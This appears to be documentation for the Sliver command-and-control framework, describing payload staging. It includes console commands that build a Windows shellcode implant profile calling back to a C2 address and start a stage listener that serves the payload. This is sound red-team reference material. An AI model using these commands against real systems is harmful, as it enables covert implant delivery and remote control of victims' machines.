 **⚠️ Important:** You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.

## Overview

As payloads can be pretty big (around 10MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `profiles new` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   enabled
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   http  tcp       1234
2   mtls  tcp       8888
```
